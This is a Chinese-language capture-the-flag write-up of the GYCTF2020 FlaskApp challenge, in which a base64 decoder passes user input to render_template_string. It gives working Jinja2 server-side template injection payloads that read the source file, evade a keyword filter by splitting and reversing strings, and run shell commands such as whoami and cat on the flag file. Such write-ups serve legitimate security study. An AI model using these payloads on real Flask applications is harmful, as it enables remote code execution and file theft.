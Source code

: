 # [GYCTF2020]FlaskApp

## 知识点

`flask`

`SSTI`

## 解题

进入首页看了一下是实现`base64`加解密的程序,提示为

![](./img/[GYCTF2020]FlaskApp-1.png)

应该是要我们让程序报错,当`flask`开启`debug`模式时,会暴漏部分源代码,尝试输入无法`base64解码`的字符串,我这里随便输了`123`

![](./img/[GYCTF2020]FlaskApp-2.png)

```python
@app.route('/decode',methods=['POST','GET'])
def decode():
    if request.values.get('text') :
        text = request.values.get("text")
        text_decode = base64.b64decode(text.encode())
        tmp = "结果 ： {0}".format(text_decode.decode())
        if waf(tmp) :
            flash("no no no !!")
            return redirect(url_for('decode'))
        res =  render_template_string(tmp)
```

发现是`python3`版本,而且有`waf`,尝试读一下`app.py`

```python
{% for c in ().__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].open('app.py', 'r').read() }}{% endif %}{% endfor %}
```

将`payload` `base64编码`后输入到解密框里解密得到源代码

![](./img/[GYCTF2020]FlaskApp-3.png)

发现过滤了`flag` `import` `popen` `os`等等,我们拼接一下

```python
{{[].__class__.__base__.__subclasses__()[128].__init__.__globals__['__builtins__']['__imp'+'ort__']('o'+'s')['po'+'pen']('whoami').read()}}
```

![](./img/[GYCTF2020]FlaskApp-5.png)

能正常回显,在根目录找到了`flag`文件`/this_is_the_flag.txt`,可以通过切片或者拼接读取

![](./img/[GYCTF2020]FlaskApp-4.png)

切片`payload`

```python
{{[].__class__.__base__.__subclasses__()[128].__init__.__globals__['__builtins__']['__imp'+'ort__']('o'+'s')['po'+'pen']('txt.galf_eht_si_siht/ tac'[::-1]).read()}}
```

拼接`payload`

```python
{{[].__class__.__base__.__subclasses__()[128].__init__.__globals__['__builtins__']['__imp'+'ort__']('o'+'s')['po'+'pen']('cat /this_is_the_fl' + 'ag.txt').read()}}
```

![](./img/[GYCTF2020]FlaskApp-6.png)